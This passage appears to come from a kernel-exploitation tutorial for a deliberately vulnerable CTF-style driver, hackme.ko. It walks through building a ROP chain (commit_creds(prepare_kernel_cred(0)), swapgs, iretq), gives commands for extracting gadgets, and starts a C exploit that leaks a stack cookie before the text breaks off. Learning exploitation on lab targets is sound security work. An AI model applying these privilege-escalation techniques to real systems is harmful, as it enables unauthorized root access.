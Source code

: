 Instead, we will craft a ROP chain using gadgets from the kernel
only. This ROP chain will perform
`commit_creds(prepare_kernel_cred(0))`, `swapgs`, and `iretq`.
First we create a list of all gadget inside the
kernel. Extract vmlinuz to vmlinux, as explained in the setup
instructions above.
There are multiple tools that can be used to extract ROP gadgets from vmlinux.
[ROPGadget](https://github.com/JonathanSalwan/ROPgadget)
(`pip install ROPGadget`) can be used with the command `ROPgadget --binary vmlinux > gadgets.txt` to find the
gadgets. However, it does not seem to find gadgets containing `iretq`.
There is also [ropr](https://github.com/ben-lichtman/ropr) (`cargo install ropr`) that is invoked using `ropr --nouniq vmlinux > gadgets.txt`
We can also filter gadgets using, e.g., `ropr --nouniq -R '^iretq' vmlinux`
Note that some of the gadgets that are found do not work as they are in memory that is marked as non-executable.

All that is left is creating a fake stack with the functions that we
want to have executed. We then write to the device `hackme.ko` and
overwrite the real stack with our fake stack. When the stack is
unwound, our functions are executed.

Note that in the x64 calling convention, the arguments to functions
are given in registers. The register RDI contains the first argument
of a function. Hence, we write the value 0 in RDI and then call
`prepare_kernel_cred`. The result is then returned in the register
RAX, again according to the x64 calling convention.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers

void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"